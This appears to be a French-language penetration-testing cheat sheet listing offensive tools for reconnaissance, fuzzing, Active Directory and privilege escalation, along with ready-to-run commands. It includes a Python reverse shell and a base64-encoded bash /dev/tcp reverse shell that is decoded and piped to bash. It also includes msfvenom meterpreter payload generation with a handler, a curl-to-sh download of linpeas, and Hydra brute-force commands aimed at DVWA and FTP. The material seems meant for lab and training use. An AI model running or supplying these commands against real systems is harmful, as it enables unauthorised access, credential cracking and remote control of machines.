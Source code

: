 # TOOLS
FrameWork pour OSINT de numero de telephone => phoneinfoga 
FUZZ => Feroxbuster, dirb, dirbuster, gobuster

Scanner de vulnerabilitö web => nikto, Nessus, Rapid7, OpenVas
Done => fuzz sous-domaine + Port Scan (https://github.com/v4d1/Dome) 
wfuzz -H 'Host: FUZZ.****.com' -u 'https://10.10.10.113' -w '/usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt' --hc 301

Scanner de platforme web => BurpSuite, ZAProxy

Reconnaissance passive graphique => Maltego
Reconnaissance passive => Metagoofil

yersinia => Pour les protocoles de communication (Cisco et autre)

CRUNSH : DICO + SEL

CUPP : Création de dico en fonction des noms données

Setoolkit : Social Ingénieuring (copie de site pour récupérer les URL)

hashid : donne le type de hash d'un hash

arpspoof : recupere les requetes ARP et les transmets (man in the middle)

exiftool : metadata du fichier

hexdump : (-C) transformation en hexa du fichier bin

powershell-empire : comme metaspote, exploit windows

KrbRelayUp : Escalation privilege sur Windows en exploitant les requêtes LDAP non-signées

recon-ng : Framework de reconnaissance passive (avec API)

Discover : Framework de reconnaissance passive (avec API) + recon ng + google dorks

pypykatz / Empire : Check des fichiers pour monter les privilèges WINDOWS

linuxprivchecker et linpeas : Check des fichiers pour monter les privilèges LINUX
pspy : Un peu comme Linpeas
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh

Steghide : Extraction de fichier a partir d'un autre fichier et passphrase

crackmapexec : Pentest orienté AD (connexion via plusieurs protocole, script, hash, un couteau suisse)

dnSpy : Reverse Application : https://github.com/dnSpy/dnSpy

------SMB------

enum4linux.py : Fait tout un tas de test sur le SMB

-----Scanner-----

nmapAutomator : 
```
git clone https://github.com/21y4d/nmapAutomator.git
sudo ln -s $(pwd)/nmapAutomator/nmapAutomator.sh /usr/local/bin/
```                
-----WEB------

Nikto : Pentest Web -> check une URL

dirb : brute force pour trouvé des pages web ou des dossiers

zaproxy : Nessus pour le web (scan les vulnérabilitées)

wpscan : scan wordpress -> Puissant

curl : requete vers site web

droopescan : Scan de site Drupal (comme Wpscan pour workPress)

Cewl : récupere les mots d'un site et fait un dico pour brute force

https://whatsmyname.app/ : recherche de compte a partir d'un pseudo 

GTFOBins : Exploit de binaire Linux => https://gtfobins.github.io/


------Reverse Shell -----
rlwrap -caR nc -lvnp $port : Ecoute et stabilise le shell

Netcat Ecoute :
nc -lvnp $port

Avoir un shell :
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
export RHOST="10.10.14.5";export RPORT=4242;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
Autre NetCat : https://github.com/xct/xc
............ : https://github.com/calebstewart/pwncat

https://www.revshells.com/ : Générateur de shell


# BRUTE FORCE
Avec Hydra :
```
CSRF=$(curl -s -c dvwa.cookie "192.168.1.44/DVWA/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
```
```
SESSIONID=$(grep PHPSESSID dvwa.cookie | awk -F ' ' '{print $7}')```
```
```
curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${CSRF}&Login=Login" "192.168.1.44/DVWA/login.php"
```
```
hydra  -L /usr/share/seclists/Usernames/top_shortlist.txt  -P /usr/share/seclists/Passwords/rockyou-40.txt \
  -e ns  -F  -u  -t 1  -w 10  -v  -V  192.168.1.44  http-get-form \
  "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome to the password protected area:H=Cookie\: security=low; PHPSESSID=${SESSIONID}"
```
```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://TargetIp
```
# WORDLIST :
```
/usr/share/wordlists
  |--dirb
  |--dirbuster
  |--fasttrack.txt
  |--fern-wifi
  |--metasploit
  |--nmap.lst
  |--rockyou.txt
  |--wfuzz

/usr/share/wordlists/dirb/common.txt => sub domain 

/usr/share/wordlists/dirb/big.txt => sub domain 

/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 

/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

/usr/share/seclist/bitquark-subdomains-top100000.txt

/usr/share/seclist/subdomains-top1millions-110000.txt
```


# AD / Windows Tools :

evil-winrm : connection a windows (avec un meterpreter)

BloodHound (avec neo4j)

windapsearch : Recherche sur LDAP (si soucis d'installation faire :
```
sudo pip2 install ldap3 
sudo apt install python3-ldap 
```

# MSFCONSOLE

Quand tu as besoin d'un reverse shell :
```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```
```
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
show options
set <RHOST>
set <PORT>
run
```

Reverse shell encodé en bqse64 :
```
echo 'bash -c "bash -i >& /dev/tcp/192.xxx.xx.xx/4444 0>&1"' | base64
-> YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuNy4yNTAuMi80NDQ0IDA+JjEiCg==
```
puis : nc -lvp 4444
```
__import__("os").system("echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuNy4yNTAuMi80NDQ0IDA+JjEiCg== | base64 -d | bash")

```
